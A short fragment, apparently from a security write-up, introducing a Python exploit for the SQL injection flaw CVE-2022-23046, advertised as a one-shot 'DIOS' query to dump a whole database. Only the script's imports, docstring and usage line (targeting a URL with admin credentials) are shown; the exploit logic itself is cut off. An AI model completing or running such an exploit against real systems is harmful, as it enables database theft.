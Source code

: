 ![Untitled](/static/images/Untitled%205.png)

The exploit with **DIOS** query, one shot dump all!

```python
import requests
import sys
import argparse

################
"""
Author of exploit: 0xrdf '0xrdf' ጷ
CVE: CVE-2022-23046
Type: SQL Injection

Usage:

$ python3 -m pip install requests
$ python3 exploit.py -u http://localhost:8082 -U <admin> -P <password>
"""
###############

__author__ = "0xrdf"

```